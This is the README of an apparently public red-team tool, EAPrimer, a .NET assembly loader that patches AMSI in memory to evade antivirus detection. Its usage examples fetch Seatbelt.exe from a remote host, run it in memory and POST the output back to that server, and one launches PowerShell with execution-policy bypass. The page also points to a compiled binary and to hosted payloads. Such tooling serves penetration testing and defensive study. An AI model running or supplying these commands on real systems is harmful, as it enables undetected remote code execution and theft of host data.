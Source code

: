# EAPrimer

EAPrimer can be used to load .Net assemblies from a filepath or URL. On startup, it will attempt to perform in-memory patching of AMSI to bypass detection. By default, output is written to the console, however, this can be directed to a file or even sent via HTTP POST request to a remote server.

The latest, compiled version of the code is available <a href="bin/">here</a>.

#### Usage:
Execute remote file with arguments and send output to server:
```text
EAPrimer.exe -path=https://192.168.1.2/Seatbelt.exe -post=https://192.168.1.2 -args="-group=all"
```

Execute local file with arguments and write output to file:
```text
EAPrimer.exe -path=.\Seatbelt.exe -post=results.txt -args="-group=all"
```


## Invoke-EAPrimer.ps1
The main purpose for writing EAPrimer.exe was to act as a support, or "Primer", for executing assemblies. Ultimately allowing for an "execute_assembly" module in pentest frameworks such as <a href="https://github.com/m8sec/ActiveReign">ActiveReign</a> and <a href="https://github.com/byt3bl33d3r/CrackMapExec">CrackMapExec</a>. The PowerShell script allows for added flexibility to create these modules.

> ⚠️ Alternate methods have since been used to more efficiently load .NET assemblies in memory. However, I have kept this file in the repo as an additional PoC.

#### Usage:
```powershell
powershell -exec bypass
Import-Module .\Invoke-EAPrimer.ps1
Invoke-EAPrimer -Path .\Seatbelt.exe -Args -group=all
```

## Credit
This was one of my first deep dives into C# and much of the heavy lifting was already done by these guys:
* <a href="https://twitter.com/Flangvik">Flangvik</a> - <a href="https://github.com/Flangvik/NetLoader">NetLoader</a>
* <a href="https://twitter.com/_RastaMouse/">_RastaMouse</a> - <a href="https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs">AMSI Bypass</a>

## Notes
* Built with .Net 4.0
* Checkout <a href="https://github.com/Flangvik/SharpCollection">SharpCollection</a> for hosted payloads to test it out!
